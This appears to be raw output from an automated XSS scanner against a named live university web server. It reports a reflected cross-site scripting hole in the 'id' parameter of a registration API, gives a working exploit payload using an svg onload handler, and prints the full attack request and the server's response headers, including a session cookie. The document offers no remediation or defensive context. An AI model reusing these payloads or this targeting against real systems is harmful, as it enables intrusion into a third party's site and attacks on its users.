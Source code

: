 ## https://xxgk.ecust.edu.cn/_web/_ids/register/api/user/new.rst?_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m
| Key | Value |
| --- | ----- |
| XSS类型 | html |
| 时间 | 2024-11-07 16:59:26 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | id |
| 描述 | html标签未转义，可攻击 |
| Payload | id=</script><ws8934> |
| 利用payload | id=</script><svg onload=alert(1)>// |

### 请求包
```
GET /_web/_ids/register/api/user/new.rst?2=qf7h2&_p=YXM9MTQyJnQ9MzQ3JnA9MSZtPU4m&action=auic2&anwser=bx4s0&document=ahmf6&email=ikri7&id=%3C%2Fscript%3E%3Cws8934%3E&options=uk9j9&p=uz6u0&page_id=ubmu2&password=pk2d1&pwdPass=tcj84&q=yei66&s=qjsq1&setValue=x21e8&src=s1d53&style=v7hl1&text=t5td5&textField=xltz5&unsubscribe_token=d3wy1&valueField=tpvw5 HTTP/1.1
Host: xxgk.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
X-Application-Context: application
Vary: Accept-Encoding
Content-Type: text/html;charset=UTF-8
Set-Cookie: JSESSIONID=BEFD8D7226D5402258C08F4D9BFCB722; Path=/; HttpOnly
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only
Server: nginx
Content-Language: zh-CN
Connection: keep-alive
Referrer-Policy: no-referrer-when-downgrade
X-Download-Options: SAMEORIGIN
Date: Thu, 07 Nov 2024 17:01:49 GMT
X-Xss-Protection: 1; mode=block
Content-Security-Policy: default-src * 'unsafe-inline' 'unsafe-eval' data: https:
Strict-Transport-Security: max-age=31536000;includeSubdomains; preload

```
